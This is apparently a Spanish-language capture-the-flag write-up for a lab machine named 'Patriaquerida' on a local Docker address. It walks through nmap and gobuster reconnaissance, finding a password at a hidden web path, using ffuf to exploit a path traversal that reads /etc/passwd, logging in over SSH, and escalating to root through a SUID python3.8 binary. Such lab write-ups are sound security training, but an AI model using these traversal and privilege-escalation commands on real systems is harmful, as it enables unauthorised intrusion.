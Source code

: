 ```yaml
---
description: '✍️ Autor: JuanR🔍 Dificultad: Fácil 📅 Fecha de creación: 12/01/2025'
---
```


# Patriaquerida

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen.png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/imagen (1).png" alt=""><figcaption></figcaption></figure>

En el puerto 80 corre la página por defecto de Apache por lo que realizamos un escaneo de directorios.

<figure><img src="../../.gitbook/assets/imagen (2).png" alt=""><figcaption></figcaption></figure>

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/imagen (5).png" alt=""><figcaption></figcaption></figure>

Observamos que se encuentra un archivo llamado **index.php**, así que procederemos a explorar el contenido de esa ruta.

<figure><img src="../../.gitbook/assets/imagen (3).png" alt=""><figcaption></figcaption></figure>

Nos indican directamente dónde buscar, así que accedemos a la ruta: **172.17.0.2/.hidden\_pass**.

<figure><img src="../../.gitbook/assets/imagen (4).png" alt=""><figcaption></figcaption></figure>

Encontramos lo que parece ser una contraseña: **balu**.

### 🚀 **EXPLOTACIÓN**

Dado que existen rutas visibles, utilizaremos **FFUZ** para explorar más a fondo. Tal como se muestra en la imagen, el servidor es vulnerable a **Path Traversal**, lo que nos permite acceder al archivo **/etc/passwd**.

```bash
ffuf -u "http://172.17.0.2/index.php?FUZZ=/etc/passwd" -w directory-list-2.3-medium.txt -fw 12
```

<figure><img src="../../.gitbook/assets/imagen (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (7).png" alt=""><figcaption></figcaption></figure>

Con la contraseña **balu** nos podemos loguear con el usuario **pinguino**.

```bash
ssh pinguino@172.17.0.2
```

<figure><img src="../../.gitbook/assets/imagen (8).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Indagando encontramos la contraseña del usuario **mario** por lo que pivotamos a él.

<figure><img src="../../.gitbook/assets/imagen (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (10).png" alt=""><figcaption></figcaption></figure>

Al buscar permisos **SUID** encontramos que tenemos con **python3.8**.

```
find / -perm -4000 2>/dev/null
```

<figure><img src="../../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/python/#suid" %}

```bash
/usr/bin/python3.8 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

<figure><img src="../../.gitbook/assets/imagen (13).png" alt=""><figcaption></figcaption></figure>
